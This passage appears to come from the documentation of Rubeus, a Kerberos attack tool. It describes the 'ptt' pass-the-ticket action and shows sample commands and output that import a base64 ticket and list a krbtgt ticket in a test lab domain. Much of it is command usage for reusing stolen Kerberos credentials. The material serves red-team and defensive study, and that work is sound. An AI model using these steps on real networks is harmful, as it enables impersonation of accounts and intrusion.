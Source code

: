 Breakdown of the ticket management commands:

| Command     | Description |
| ----------- | ----------- |
| [ptt](#ptt) | Apply a ticket to the current (or specified) logon session |
| [purge](#purge) | Purge the current (or specified) logon session of Kerberos tickets |
| [describe](#describe) | Describe a ticket base64 blob or .kirbi file |


### ptt

The **ptt** action will submit a `/ticket:X` (TGT or service ticket) for the current logon session through the LsaCallAuthenticationPackage() API with a KERB_SUBMIT_TKT_REQUEST message, or (**if elevated**) to the logon session specified by `/luid:0xA..`. Like other `/ticket:X` parameters, the value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk.

    C:\Rubeus>Rubeus.exe ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWoo..(snip)..

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Rubeus>Rubeus.exe klist

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3



    [*] Action: List Kerberos Tickets (Current User)

        [0] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/11/2019 2:55:18 PM ; 2/11/2019 7:55:18 PM ; 2/18/2019 2:55:18 PM
        Server Name       : krbtgt/testlab.local @ TESTLAB.LOCAL
        Client Name       : dfm.a @ TESTLAB.LOCAL
        Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)
